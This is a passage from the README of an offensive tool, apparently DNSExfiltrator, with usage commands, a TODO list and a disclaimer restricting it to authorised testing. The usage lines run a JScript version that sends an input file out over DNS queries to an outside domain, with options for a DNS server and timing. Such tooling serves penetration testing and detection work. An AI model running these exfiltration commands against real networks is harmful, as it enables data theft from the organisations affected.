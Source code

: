 3/ Using the JScript script, pass it the exact same arguments as you would with the standalone Windows executable:
```
cscript.exe dnsExiltrator.js inputFile mydomain.com password
```
Or, with some options:
```
cscript.exe dnsExiltrator.js inputFile mydomain.com password s=my.dns.server.com t=500
```
<img src="https://dl.dropboxusercontent.com/s/bzfmzfeejpjkas2/dnsExfiltrator_03.jpg?dl=0" width="900">

TODO
----------------
  - Some will ask for AES encryption instead of RC4, I know... might add it later
  - Display estimated transfer time
  - Do better argument parsing (*I'm too lazy to learn how to use a c# argument parsing library, I wish it was as simple as Python*)

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*
